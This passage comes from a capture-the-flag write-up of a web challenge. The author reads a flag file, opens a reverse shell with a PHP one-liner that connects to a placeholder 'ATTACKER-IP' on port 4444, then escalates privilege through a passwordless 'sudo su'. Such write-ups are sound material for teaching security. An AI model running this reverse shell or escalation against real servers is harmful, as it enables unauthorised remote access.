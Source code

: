 **Figure 5.3** shows the results of our script and reveals the second flag's file.
Now that we know where it is, we just have to read the flag. To do this I adjusted the
script.

```bash
#!/bin/bash

cat /flag2.txt
```

The new script is fairly low-tech but it gets the job done and outputs the new flag.

>1337UP{K1TT3N_BYP4SS_W1TH_4T_CH4R4CT3R}

As a side-note, we can use our directory printing script combined with our file
download capabilities (or file read script) to view other interesting things on the server.
One of which being a main.go file. I have included the file [here](/assets/1337UPCTF/main.go) for interest but
reading it isn't required for the next part.

&nbsp;

### **Part 3**

>A cat is an example of sophistication minus civilization.
>
>Created by Breno Vitório

The final part I completed starts right where we left off in part 2. After reading the second flag,
the next logical step seems to point to getting shell access on the server. Getting a shell seems
pretty straightforward, we just need to change our script from part 2 to include a reverse shell.
We know that the server has to have PHP installed so PHP seems like a solid choice for a
reverse shell.

```bash
#!/bin/bash

php -r '$sock=fsockopen("ATTACKER-IP", 4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Once we set up a listener on our machine and get the server to run our script,
we receive our hard earned shell. Next, it's time to explore the machine a bit.
Using `sudo -l` we can find that our current user (www-data) has permissions to
`sudo su` as user "level1" without a password. A very simple privilege escalation but
we take all the wins we can get.

<div align="center"><a href="/assets/1337UPCTF/lovelycats4.png"><img src="/assets/1337UPCTF/lovelycats4.png"></a></div>
<figcaption align=center><b>Figure 6.1: Reading the Flag File</b></figcaption>
&nbsp;
